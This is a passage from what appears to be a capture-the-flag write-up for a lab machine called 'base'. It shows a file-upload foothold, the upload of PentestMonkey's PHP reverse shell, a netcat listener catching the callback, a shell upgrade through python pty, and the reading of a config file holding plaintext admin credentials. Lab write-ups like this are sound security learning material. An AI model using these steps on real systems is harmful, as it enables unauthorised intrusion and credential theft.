 Open `http://10.129.95.184/_uploaded/` in a browser and click on the test.php file.
- If you get a butt-metric-ton of PHP information, you're in.

Go get [PenTest Monkey's Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell).
- Change the necesary variables (vim).
- Upload it.
- Set up a listener.
- Run the reverse shell.

```
# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.155] from (UNKNOWN) [10.129.95.184] 33790
Linux base 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 00:46:41 up 28 min,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

And we can look around...
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@base:/$ cd home
cd home
www-data@base:/home$ ls
ls
john
www-data@base:/home$ cd john
cd john
www-data@base:/home/john$ ls
ls
user.txt
www-data@base:/home/john$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

Okay, let's see if we can get into the config.php file used to compare login creds.
```
www-data@base:/home/john$ cd /var/www/html
cd /var/www/html
www-data@base:/var/www/html$ ls
ls
_uploaded  assets  forms  index.html  login  logout.php  upload.php
www-data@base:/var/www/html$ cd login
cd login
www-data@base:/var/www/html/login$ ls
ls
config.php  login.php  login.php.swp
www-data@base:/var/www/html/login$ cat config.php
cat config.php
<?php
$username = "admin";
$password = "thisisagoodpassword";
```
